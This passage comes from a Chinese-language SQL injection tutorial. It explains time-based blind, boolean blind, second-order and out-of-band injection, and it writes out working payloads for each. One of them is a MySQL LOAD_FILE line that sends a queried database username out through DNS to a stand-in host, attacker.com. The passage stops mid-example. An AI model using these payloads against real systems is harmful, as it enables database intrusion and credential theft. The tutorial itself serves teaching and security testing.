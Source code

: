         此方法通常没有32位的长度限制，可以一次性爆出更长的字符串。
        
3. 盲注
    1. 时间盲注
    页面无论查询成功与否，返回的页面都完全一样。通过构造带有`SLEEP()`或`BENCHMARK()`等延迟函数的SQL语句，根据服务器的响应时间长短来判断查询是否成功执行。
        
        函数：sleep()，benchmark()
        
        sleep(n)：传入的n是多少延时多少秒
        
        ```java
        1 AND IF( (SELECT SUBSTRING(version(),1,1)) = '5', SLEEP(5), 0)
        ```
        
        benchmark(count, expr)：重复执行表达式`expr`共`count`次
        
        ```java
        1 AND IF( (SELECT SUBSTRING(version(),1,1)) = '5', BENCHMARK(5000000, MD5('a')), 0)
        ```
        
    2. 布尔盲注
        
        页面不会返回详细错误或查询结果，只会根据查询成功与否返回两种不同的状态（例如“登录成功”/“登录失败”或“页面存在”/“页面不存在”或页面回显长度等等）。通过构造SQL，一次猜一个字符，根据页面的不同反应来判断猜测是否正确。
        
        ```java
        1' AND ASCII(SUBSTR(database(),1,1))=116 -- //判断数据库第一个字母是否为t，其余类推
        
        1' AND SUBSTR((SELECT table_name FROM information_schema.tables 
                       WHERE table_schema=database() LIMIT 0,1),1,1)='u' -- //判断第一个表的第一个字母是否为u
                       
        。。。。剩下的就和上面写的核心是一样的
        ```
        
        常用的函数：
        
        - `LENGTH(str)` → 获取长度
        - `SUBSTR(str,pos,len)` → 截取子串
        - `ASCII(char)` → 转换为 ASCII
        - `COUNT(*)` → 获取数量
        - `LIMIT offset, count` → 定位某一条数据
4. 二次注入与带外注入
    1. 二次注入
        
        简单说就是第一次注入的时候是参数化查询啥的没执行到恶意的SQL然后将这段数据插入到了数据库，在另外的一个地方对这个数据进行数据库操作了，这里没进行过滤等机制，直接就执行了恶意的SQL。
        
        ```java
        注册用户名：admin' -- 
        修改密码：UPDATE users SET password = 'newpass' WHERE username = 'admin' -- '
        ```
        
    2. 带外注入
        
        需要数据库服务器能够发起出站网络请求（DNS, HTTP, SMB等）。
        
        原理就是借助目标数据库直接发起网络请求
        
        1. DNS
            
            ```java
            MySql：
            ... AND LOAD_FILE(CONCAT('\\\\', (SELECT user FROM mysql.user LIMIT 0,1), '.attacker.com\\a'))
            //数据库借助 LOAD_FILE() 直接访问目标服务器，
            //这时发起的DNS请求的域名就是 查到的用户名.attacker.com
            